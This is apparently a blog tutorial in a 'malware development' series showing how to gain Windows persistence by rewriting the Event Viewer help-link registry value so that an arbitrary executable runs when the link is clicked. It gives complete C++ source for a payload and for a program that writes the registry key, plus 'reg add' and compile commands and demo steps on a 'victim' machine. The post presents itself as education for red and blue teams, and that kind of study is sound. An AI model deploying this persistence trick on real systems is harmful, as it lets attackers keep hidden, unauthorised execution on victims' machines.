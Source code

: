 ```yaml
---
title:  "Malware development: persistence - part 14. Event Viewer help link. Simple C++ example."
date:   2022-10-09 03:00:00 +0300
header:
  teaser: "/assets/images/74/2022-10-09_05-28.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/74/2022-10-09_05-28.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via replacing Windows Event Viewer help link.     

### event viewer help link

Windows' Event Viewer has existed for over a decade. The Event Viewer examines a limited number of logs that Windows maintains on your computer. The logs are `XML`-formatted text files containing plain content.     

![pers](/assets/images/74/2022-10-09_05-10.png){:class="img-responsive"}    

As part of its user interface, Event Viewer provides a link to *Event Log Online Help*:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

When clicked, a default help Microsoft link will be opened, which is defined at the windows registry at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](/assets/images/74/2022-10-09_05-13.png){:class="img-responsive"}    

As you may have guessed, it would be logical to assume that the key: `MicrosoftRedirectionURL` value can be changed in the interests of an attacker. That's the trick.    

### practical example

Let's look at a practical example. Firstly, as usually, create evil application, `meow-meow` "malware" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Then, create a program for persistence (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, just update registry key value to `file://Z:\\2022-10-09-malware-pers-14\\hack.exe`.    

### demo

Let's go to see everything in action. Compile "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_17-31.png){:class="img-responsive"}    

check correctness:    

![pers](/assets/images/74/2022-10-09_05-38_1.png){:class="img-responsive"}    

and compile persistence script:    
```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_05-24.png){:class="img-responsive"}    

Check default registry key values at the victim's machine - `Windows 10 x64` in my case:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](/assets/images/74/2022-10-09_05-25.png){:class="img-responsive"}    

then also run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```    

![pers](/assets/images/74/2022-10-09_05-26.png){:class="img-responsive"}    

Finally, try to click *Event Log Online Help* link again:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-27.png){:class="img-responsive"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](/assets/images/74/2022-10-09_05-34.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-30.png){:class="img-responsive"}    

This means that when link clicked, `mmc.exe` is launched, which in turn launches malicious behavior.    

For revert, after end of experiments, run:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](/assets/images/74/2022-10-09_05-38.png){:class="img-responsive"}    

or just restore virtual machine.     

> This is admin-level malware persistence trick, so this feature is work only with admin permissions       

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
